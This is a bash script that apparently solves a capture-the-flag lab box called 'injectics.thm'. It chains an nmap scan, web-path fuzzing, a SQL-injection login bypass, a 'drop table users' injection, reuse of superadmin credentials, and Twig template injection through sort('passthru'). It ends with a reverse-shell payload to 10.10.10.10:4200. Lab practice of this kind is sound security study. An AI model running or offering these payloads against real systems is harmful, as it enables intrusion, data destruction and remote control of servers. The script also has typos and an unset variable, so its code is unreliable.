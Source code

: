 #!/usr/bin/env bash

# Initial Scan
ip='10.10.10.10'
nmap -sV -sC $ip > nmap.txt

## Scan 80

# Discovery
while IFS='' read name
do
    attemtp=$(curl -sL "target$name" -w %{http_code})
    code=${attempt: -3}
    if [[ "$code" == "200" ]]
    then
        echo "name" >> enumerated_files.txt
    fi
done < /usr/share/wordlists/SecLists/Discovery/Web-Content/quickhits.txt

# Home Page
#curl -sL "$target/index.php" -O

# Mail Log
#curl -sL "$target/mail.log" -O

# Login Page
#curl -sL "$target/login.php" -O
#curl -sL "$target/script.js" -O

# Admin Login
#curl -sL "$target/adminLogin007.php" -O

# LOGIN POST REQUEST
username='x'
password='x'
inject="' OR 'x'='x'#;"
#while IFS='' read inject
#do
#   response=$(curl -sL "$target/functions.php" -d "username=$username $inject" -d "password=$password")
#   size=${#response}
#   if [[ $size != 56 ]];
#   then
#       echo $inject
#   fi
#done < injects.txt

# Bypass
#curl -sL "$target/functions.php" -d "username=$username $inject" -d "password=$password" --cookie-jar login.cookie


#curl -sL "$target/edit_leaderboard.php" --cookie login.cookie -d "rank=1" -d "country=USA" -d "gold=30; drop table users #;" -d "silver=30" -d "bronze=30"

#curl -sL "$target/dashboard.php" --cookie login.cookie -O

# Use Credentials
username='superadmin@injectics.thm'
password='superSecurePasswd101'
#curl -sL "$target/adminLogin007.php" -d "mail=$username" -d "pass=$password" --cookie-jar admin.cookie -o admin-login.php

# SUPER ADMIN
#curl -sL "$target/update_profile.php"  --cookie admin.cookie -O
#curl -sL "$target/composer.json" -O
curl -sL "$target/update_profile.php" -d "fname={{['"'bash -c ls\", '']|sort('passthru')}}" -d "email=$username" --cookie admin.cookie
curl -sL "$target/update_profile.php"  --cookie admin.cookie -O
curl -sL "$target/dashboard.php"  --cookie admin.cookie

{{["bash -c 'exec bash -i >& /dev/tcp/10.10.10.10/4200 0>&1'",'']|sort('passthru')}}
